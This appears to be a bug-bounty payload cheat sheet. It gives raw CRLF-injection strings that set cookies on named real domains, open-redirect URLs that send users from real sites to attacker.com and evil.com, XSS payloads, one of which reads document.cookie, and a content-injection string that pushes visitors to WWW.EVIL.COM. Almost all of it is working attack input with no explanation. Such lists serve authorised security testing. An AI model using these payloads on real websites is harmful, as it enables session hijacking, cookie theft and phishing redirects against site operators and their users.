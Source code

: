 # stuff-

crlf injection

%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2019%0d%0a%0d%0a<html>deface</html>

verify_token=%0aSet-Cookie:%20GerbenJavado=Awesome%3B%0a


%E5%98%8A%E5%98%8DSet-Cookie:%20test

%0d%0aMyheader:NewHeader

%0d%0aSet-Cookie:%20test=test;domain=.yelp.com

%0aSet-Cookie:NEW_COOKIE123

%0dSet-Cookie:test=test;domain=.vimeopro.com

%23%0dSet-Cookie:crlf=injection;domain=.sucuri.net;

%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;

%0aSet-Cookie:malicious_cookie1

http://greenhouse.io/%0d%0aSet-Cookie:test=test;domain=.greenhouse.io

%3f%0dSet-Cookie:crlf=injection%3bdomain=.testfire.net%3b

artsy.net
----------------------------------------
open redirect 

https://dev.twitter.com/https:/%5cblackfan.ru/
http://yelp.com//youtube.com

https://login.newrelic.com/login?return_to=///attacker.com

https://pornhub.com//www.google.com/%2f%2e%2e


https://hackerone.com/redirect?signature=e434aa5a63afdb51623e0cc08cb4aff4466814fe&url=http%3A%2F%2Fecommerce.shopify.com%2Faccounts%3Ffound_email%3Dtrue%26return_to%3D.mx%252F%26user%255Bemail%255D%3Demail%40email.com

https://www.zaption.com/logout?returnTo=///evil.com/

https://gogoair.com//gogoair.com

https://google.com/%2Fgoogle%252Ecom

https://it.mail.ru/en/users/register/?next=////www.evil.com/%2e%2e 



------------------
xss

alert(%2fxss%2f);%2f%2f
%3Cscript%3Eprompt('ZephrFish')%3C/script%3E
xx%27-alert(document.cookie)-%27

%22%3E<script>alert(9)</script>

</textarea><img src=x onerror=alert(1)>
%22%3E%3Cimg%20src=x%20onerror=prompt(document.domain)%3E
asdf"><img src=x onerror=prompt(1)>

%27%3E%3Ciframe/onload=alert(document.domain)%3E%3C/iframe%3E

"><svg/onload=confirm(document.domain)>

<svg><script xlink:href=data:,alert(1) />

<form action=javascript:alert(1)><input type=submit>

<html><script>alert(1)</script>

"></div></form></script><script>alert()</script><iframe src="www.google.com" onload="alert()">

-----------------
context injection


!!!ATENTION!%20This%20server%3Cscript%3Eprompt('ZephrFish')%3C/script%3E%20is%20on%20Maintenance%20please%20go%20to%20WWW.EVIL.COM%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20

